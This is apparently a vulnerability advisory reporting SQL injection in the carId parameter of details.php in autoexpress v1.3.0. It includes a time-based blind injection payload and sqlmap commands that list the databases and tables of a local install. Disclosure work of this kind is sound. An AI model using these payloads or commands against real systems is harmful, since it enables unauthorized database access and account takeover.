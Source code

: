### BUG_Author:

xionggang zhang

### Affected version:

autoexpress

### Vendor:

http://autoexpress.com
http://raymart.com

### Software:

autoexpress - v1.3.0

### Vulnerability File:

details.php

### Description:

The autoexpress system v1.3.0 has an SQL injection vulnerability on the details.php page.
The parameter carId was not processed correctly. Hackers can exploit this vulnerability to manipulate the administrator account of the system and have complete control over the information of other accounts.

Status: Severe

The GET parameter carId has SQL injection

Payload: 

> carId=3 AND (SELECT 2064 From (SELECT (SLEEP (5))) mqMc)

Sqlmap command:

> python sqlmap.py -u http://localhost:8080/autoexpress-Master/details.php?carId=3 --dbs  --batch

![image-20240416105259636](C:\Users\zhangxiongbin\AppData\Roaming\Typora\typora-user-images\image-20240416105259636.png)

![image-20240416105331342](C:\Users\zhangxiongbin\AppData\Roaming\Typora\typora-user-images\image-20240416105331342.png)

> python sqlmap.py -u http://localhost:8080/autoexpress-Master/details.php?carId=3 -D autoexpress --tables  --batch

![image-20240416105627005](C:\Users\zhangxiongbin\AppData\Roaming\Typora\typora-user-images\image-20240416105627005.png)